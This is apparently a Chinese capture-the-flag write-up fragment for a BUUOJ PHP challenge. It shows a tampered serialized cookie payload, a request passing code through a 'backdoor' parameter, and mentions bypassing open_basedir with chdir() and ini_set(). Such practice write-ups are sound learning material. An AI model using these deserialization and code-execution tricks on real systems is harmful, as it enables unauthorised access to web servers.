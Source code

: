 ![image-20211108104801200](images/2.png)

payload

```
修改cookie
data=O%3A4%3A%22User%22%3A1%3A%7Bs%3A5%3A%22count%22%3Bi%3A9223372036854775806%3B%7D;

然后
http://1e108216-260c-4428-a8f3-3bf27a9ee03c.node4.buuoj.cn:81/add_api.php?backdoor=phpinfo();
```

![image-20211108105941260](images/3.png)

看一下disable_functions

![image-20211108112145164](images/4.png)

过滤了这么多不,过这里没有过滤file_get_contents,file_put_contents,scandir,print_r等函数

设置了open_basedir

![image-20211108112245163](images/5.png)

只能访问当前目录

利用chdir()和ini_set()组合绕过
